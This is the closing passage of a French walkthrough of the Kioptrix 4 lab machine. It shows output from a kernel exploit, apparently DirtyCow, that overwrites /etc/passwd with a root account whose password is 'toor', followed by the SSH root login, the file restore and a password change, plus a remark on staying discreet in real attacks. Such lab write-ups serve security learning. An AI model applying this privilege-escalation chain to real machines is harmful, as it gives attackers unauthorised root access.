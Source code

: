 ~~~bash

mmap: b7ee4000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
~~~
> Cet exploit prend au moins 15 minutes à faire le job, soyez patient ! 

Depuis Kali je devrais pouvoir me connecter : 

~~~bash
root@Kali:~/kiopitrix-1-3# ssh root@192.168.122.133
root@192.168.122.133's password:
Welcome to LigGoat Security Systems - We are Watching
root@Kioptrix4:~# whoami
root
~~~

Je restaure maintenant le mot de passe et change le mot de passe : 

~~~bash
root@Kioptrix4:~# mv /tmp/passwd.bak /etc/passwd
root@Kioptrix4:~# passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
~~~

> Note : cette technique fonctionne ici car je suis dans le cadre d'un labs. En réalité il faut être le plus discret possible. 

## Conclusion 

Au cours de ce challenge j'ai appris pas mal de choses. On met toujours l'accent sur la recherche d'informations et on découvre de nouvelles attaques telles que l'évasion de shell restreint. 
On pourra également jouer avec DirtyCow qui est un exploit touchant un large panel de version du noyau Linux. 
Il est également à noter que d'autres moyens existent pour obtenir l'accès root sur la machine. 
